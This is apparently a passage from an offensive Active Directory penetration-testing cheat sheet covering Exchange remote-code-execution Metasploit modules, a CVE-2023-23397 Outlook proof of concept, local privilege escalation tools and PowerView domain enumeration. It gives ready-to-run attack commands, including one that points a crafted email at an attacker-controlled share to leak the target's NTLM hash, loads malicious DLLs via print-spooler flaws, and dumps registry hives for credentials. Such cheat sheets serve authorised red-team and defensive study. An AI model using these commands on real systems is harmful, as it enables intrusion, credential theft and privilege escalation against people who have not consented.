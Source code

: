 ```bash
msf6 exploit(windows/http/exchange_proxynotshell_rce) >
msf6 exploit(windows/http/exchange_proxyshell_rce) >
msf6 exploit(windows/http/exchange_proxylogon_rce) >
```

* [CVE-2023-23397](https://github.com/Trackflaw/CVE-2023-23397)

This CVE permits to leak the NTLM hash of the target as soon as the email arrives in his Outlook mail box. This PoC generates a `.msg` file containing the exploit in the pop-up sound attribute. It is up to you to send the email to the target.

```powershell
python3.exe CVE-2023-23397.py --path '\\<attacker_IP>\'
```

Before sending the email, run Inveigh to intercept the NTLM hash.

### For local privesc

* [CVE-2022-41057](https://bugs.chromium.org/p/project-zero/issues/detail?id=2346)
* [KrbRelayUp](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-krbrelayup)
* [SpoolFool](https://github.com/ly4k/SpoolFool) (CVE-2022-21999)

```powershell
./SpoolFool.exe -dll adUser.dll

#In PowerShell
Import-Module .\SpoolFool.ps1
Invoke-SpoolFool -dll adUser.dll
```

* [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare) (CVE-2021-1675 / CVE-2021-34527)

```powershell
./SharpPrintNightmare.exe ./adUser.dll
```

* [HiveNightmare](https://github.com/WiredPulse/Invoke-HiveNightmare) (CVE-2021-36934)

```powershell
./Invoke-HiveNightmare.ps1 -path ./HiveDumps
```

## Domain Enumeration

### Domain objects

#### Current domain

```powershell
#PowerView
Get-NetDomain
#AD Module
Get-ADDomain

#Domain SID
Get-DomainSID
(Get-ADDomain).DomainSID

#Domain policy
(Get-DomainPolicy)."system access"
```
